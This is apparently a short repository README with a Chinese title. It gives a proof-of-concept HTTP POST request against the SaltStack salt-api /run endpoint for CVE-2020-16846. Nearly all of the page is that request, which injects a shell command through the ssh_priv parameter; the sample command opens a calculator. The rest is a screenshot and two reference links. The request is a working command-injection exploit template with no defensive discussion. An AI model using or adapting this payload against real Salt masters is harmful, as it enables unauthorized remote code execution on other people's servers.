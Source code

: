 # CVE-2020-16846 SaltStack远程执行代码漏洞


```
PoC：

POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0
Accept: application/x-yaml
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=pyn3rd&fun=a&roster=qwe&ssh_priv=aaa%26%20open%20-a%20Calculator
```

![](media/16097302977098/16097303099460.jpg)


ref：

https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/

https://forum.ywhack.com/thread-114703-1-4.html